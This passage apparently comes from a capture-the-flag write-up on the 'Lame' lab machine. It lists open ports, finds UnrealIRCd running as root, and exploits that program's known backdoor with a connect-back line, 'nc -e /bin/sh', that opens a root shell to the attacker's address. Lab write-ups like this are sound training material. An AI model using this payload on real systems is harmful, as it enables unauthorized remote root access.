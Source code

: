 ```shell
tcp        0      0 0.0.0.0:5900            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:43181           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:59949           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:39182           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8787            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8180            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:1524            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:41909           0.0.0.0:*               LISTEN      -
tcp        0      0 10.10.10.3:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -
tcp6       0      0 :::2121                 :::*                    LISTEN      -
tcp6       0      0 :::3632                 :::*                    LISTEN      -
tcp6       0      0 :::53                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::5432                 :::*                    LISTEN      -
tcp6       0      0 ::1:953                 :::*                    LISTEN      -
```

While looking at the processes running on the machine, we can see `UnrealIRCd` is running as root

```shell
daemon@lame:/$ ps auxww | grep -i unreal
ps auxww | grep -i unreal
root      5197  0.0  0.4   8540  2368 ?        S    08:08   0:01 /usr/bin/unrealircd
daemon    6936  0.0  0.1   1784   540 pts/1    RN+  16:24   0:00 grep -i unreal
```

With reference to [**this article**](https://blog.stalkr.net/2010/06/unrealircd-3281-backdoored.html) we can exploit this `UnrealIRCd` to create a backdoor and get a shell as root.

#### Checking port 6697:

```shell
daemon@lame:/$ nc 127.0.0.1 6697
nc 127.0.0.1 6697
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
```
We get output as Metasploitable which indicates we are on right track. In order to easily use the backdoor, we could use the known method of connect-back shell.

#### Connect-back shell:

```shell
daemon@lame:/$ echo "AB; nc -e /bin/sh 10.10.14.17 1337" | nc 127.0.0.1 6697
echo "AB; nc -e /bin/sh 10.10.14.17 1337" | nc 127.0.0.1 6697
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
```

